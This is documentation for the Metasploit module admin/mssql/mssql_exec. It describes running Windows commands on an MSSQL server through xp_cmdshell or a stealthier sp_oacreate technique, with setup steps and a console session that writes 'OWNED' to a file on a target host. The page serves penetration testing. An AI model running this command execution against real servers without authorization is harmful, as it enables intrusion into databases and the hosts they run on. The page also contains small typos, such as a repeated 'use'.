 ## Description

This module will execute a Windows command on a MSSQL/MSDE instance via the xp_cmdshell (default) or the sp_oacreate
procedure (more opsec safe, no output, no temporary data table). A valid username and password is required to use this
module. The sp_oacreate function is used in metasploit to rebuild the xp_cmdshell stored procedure but can be used
directly to get code execution which is the more opsec safe way.

## Options

### TECHNIQUE
Technique to use for command execution.

When `xp_cmdshell` is selected, the corresponding stored procedure is used. The [`xp_cmdshell`][1] stored procedure is
disabled by default, but Metasploit will attempt to enable it which requires elevated privileges. This technique returns
the output when the command was successfully run. If this technique fails, the module will attempt to use the
`sp_oacreate` technique instead.

When `sp_oacreate` is selected, a more stealthy technique will be used however no command output will be available. This
technique leverages the [`sp_OACreate`][2] stored procedure to create an instance of an OLE object and invokes
`wscript.shell`.

## Verification Steps

1. Do: `use use admin/mssql/mssql_exec`
2. Do: `set USERNAME [username1]`
3. Do: `set PASSWORD [password1]`
3. Do: `set TECHNIQUE sp_oacreate` (optional, defaults to xp_cmdshell)
4. Do: `set RHOSTS [IP]`
5. Do: `set CMD [command]`
6. Do: `run`

## Scenarios

```
msf > use use use admin/mssql/mssql_exec
msf auxiliary(mssql_exec) > set USERNAME username1
USERNAME => username1
msf auxiliary(mssql_exec) > set PASSWORD password1
PASSWORD => password1
msf auxiliary(mssql_exec) > set TECHNIQUE sp_oacreate
TECHNIQUE => sp_oacreate
msf auxiliary(mssql_exec) > set RHOST 192.168.1.195
RHOST => 192.168.1.195
msf auxiliary(mssql_exec) > set CMD cmd.exe /c echo OWNED > C:\owned.txt
CMD => cmd.exe /c echo OWNED > C:\owned.txt
msf auxiliary(mssql_exec) > run

[*] 192.168.1.195:1433 - Enabling advanced options and ole automation procedures.
[*] 192.168.1.195:1433 - Executing command using sp_oacreate. No output will be displayed.
[*] Auxiliary module execution completed
msf auxiliary(mssql_exec_oacreate) >
```

[1]: https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15
[2]: https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-oacreate-transact-sql?view=sql-server-ver15
